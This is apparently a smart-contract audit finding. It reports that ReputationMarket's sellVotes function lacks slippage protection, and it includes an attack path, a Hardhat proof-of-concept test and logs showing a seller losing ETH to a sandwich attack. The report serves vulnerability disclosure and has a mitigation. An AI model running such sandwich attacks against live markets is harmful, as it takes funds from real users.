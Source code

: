 Teeny Smoke Grasshopper

High

# In `ReputationMarket`, sellers are vulnerable to a sandwich attack

### Summary

The missing slippage protection in `ReputationMarket#sellVotes` will make sellers vulnerable to a sandwich attack.

### Root Cause

The slippage protection is implemented in `buyVotes`

https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/57c02df7c56f0b18c681a89ebccc28c86c72d8d8/ethos/packages/contracts/contracts/ReputationMarket.sol#L442

```solidity
  function buyVotes(
    uint256 profileId,
    bool isPositive,
>>  uint256 expectedVotes,
>>  uint256 slippageBasisPoints
  ) public payable whenNotPaused activeMarket(profileId) nonReentrant {
```

But in `sellVotes`, the slippage protection is missing

https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/57c02df7c56f0b18c681a89ebccc28c86c72d8d8/ethos/packages/contracts/contracts/ReputationMarket.sol#L495

```solidity
  function sellVotes(
    uint256 profileId,
    bool isPositive,
    uint256 amount
  ) public whenNotPaused activeMarket(profileId) nonReentrant {
```

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. The attacker buys votes in the opposite direction of the victim.
2. The victim sells votes.
3. The attacker sells votes in the opposite direction of the victim.

### Impact

The sellers in `ReputationMarket` are vulnerable to a sandwich attack. Loss of funds.

### PoC

1. Create `PoC.test.ts` in `test/reputationMarket`
2. Run `NODE_OPTIONS='--no-warnings=ExperimentalWarning --experimental-loader ts-node/esm/transpile-only' npx hardhat test test/reputationMarket/PoC.test.ts`

`PoC.test.ts`:

```solidity
import { loadFixture } from '@nomicfoundation/hardhat-toolbox/network-helpers.js';
import { use } from 'chai';
import chaiAsPromised from 'chai-as-promised';
import { type ReputationMarket } from '../../typechain-types/index.js';
import { type EthosUser } from '../utils/ethosUser.js';
import { createDeployer, type EthosDeployer } from '../utils/deployEthos.js';
import { DEFAULT, MarketUser } from './utils.js';

/* eslint-disable react-hooks/rules-of-hooks */
use(chaiAsPromised as Chai.ChaiPlugin);

describe('PoC', () => {
  let deployer: EthosDeployer;
  let marketUser : EthosUser, ethosVictim: EthosUser, ethosAttacker : EthosUser;
  let victim: MarketUser;
  let attacker: MarketUser;
  let reputationMarket: ReputationMarket;

  let victimTotalVotes: bigint = 10n;
  let victimBalanceBefore: bigint;

  beforeEach(async () => {
    deployer = await loadFixture(createDeployer);

    if (!deployer.reputationMarket.contract) {
      throw new Error('ReputationMarket contract not found');
    }
    [marketUser, ethosVictim, ethosAttacker] = await Promise.all([
      deployer.createUser(),
      deployer.createUser(),
      deployer.createUser(),
    ]);
    await Promise.all([ethosVictim.setBalance('2000'), ethosAttacker.setBalance('2000')]);

    victim = new MarketUser(ethosVictim.signer);
    attacker = new MarketUser(ethosAttacker.signer);

    reputationMarket = deployer.reputationMarket.contract;
    DEFAULT.reputationMarket = reputationMarket;
    DEFAULT.profileId = marketUser.profileId;

    await reputationMarket
      .connect(deployer.ADMIN)
      .createMarketWithConfigAdmin(marketUser.signer.address, 0, {
        value: DEFAULT.initialLiquidity,
      });

    for (let i = 0; i < victimTotalVotes; i++) {
      await victim.buyOneVote({ profileId: DEFAULT.profileId, isPositive: true});
    }
    
    victimBalanceBefore = await ethosVictim.getBalance();
  });

  it('Without sandwich attack', async () => {
    await victim.sellVotes({ profileId: DEFAULT.profileId, isPositive: true, sellVotes: victimTotalVotes});
    console.log("Total received: ", await ethosVictim.getBalance() - victimBalanceBefore);
  })

  it('With sandwich attack', async () => {
    let attackerTotalVotes:bigint = 15n;  

    for (let i = 0; i < attackerTotalVotes; i++) {
      await attacker.buyOneVote({ profileId: DEFAULT.profileId, isPositive: false });
    }

    await victim.sellVotes({ profileId: DEFAULT.profileId, isPositive: true, sellVotes: victimTotalVotes});

    await attacker.sellVotes({ profileId: DEFAULT.profileId, isPositive: false, sellVotes: attackerTotalVotes});    

    console.log("Total received: ", await ethosVictim.getBalance() - victimBalanceBefore);
  })
});
```

Logs

```bash
Without sandwich attack
Total received:  79665279363732660n
With sandwich attack
Total received:  24074290343831753n
```

There is a big difference in the amount of ETH that the victim will receive in case the attacker performs the sandwich attack.

### Mitigation

Implement slippage protection in `sellVotes`.